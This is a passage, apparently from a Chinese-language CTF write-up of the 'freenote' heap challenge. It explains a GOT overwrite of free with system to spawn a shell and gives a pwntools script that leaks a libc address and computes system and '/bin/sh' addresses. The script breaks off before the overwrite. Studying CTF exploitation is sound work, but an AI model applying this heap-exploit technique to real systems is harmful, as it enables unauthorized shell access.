 count（0<count<max)+flag+len+got_free+padding(len 0x10)+binsh_addr
这样我们就可以修改free_got的地址，再次调用edit，将got表改写成system地址，执行free（1）操作，即free(binsh_addr)->system(binsh_addr)->system(binsh)即可getshell

    from pwn import *
    context.log_level = 'debug'
    io = process('./freenote')
    elf = ELF('freenote')
    libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
    def show(idx):
    	io.recvuntil('choice: ')
    	io.sendline('1')
    
    	io.sendline(str(idx))
    def add(len,content):
    	io.recvuntil(':')
    	io.sendline('2')
    	io.recvuntil('note:')
    	io.sendline(str(len))
    	io.recvuntil(':')
    	io.sendline(content)
    def delete(idx):
    	io.recvuntil(':')
    	io.sendline('4')
    	io.recvuntil('number:')
    	io.sendline(str(idx))
    def edit(idx,len,content):
    	io.recvuntil(':')
    	io.sendline('3')
    	io.recvuntil('number:')
    	io.sendline(str(idx))
    	io.recvuntil(':')
    	io.sendline(str(len))
    	io.recvuntil(':')
    	io.sendline(content)
    
    add(0x80,'A'*0x80)
    add(0x80,'B'*0x80)
    delete(0)
    add(0x8,'A'*0x8)
    show(0)
    io.recvuntil("0. ")
    leak = io.recvuntil("\n")
    print type(leak)
    print leak[8:-1].encode('hex')
    leaklibcaddr = u64(leak[8:-1].ljust(8, '\x00'))
    print hex(leaklibcaddr)
    
    delete(1)
    delete(0)
    magic_num = 0x3c4b78
    libc_base = leaklibcaddr - magic_num
    system_addr = libc_base+libc.symbols['system']
    binsh = libc_base + next(libc.search('/bin/sh'))
    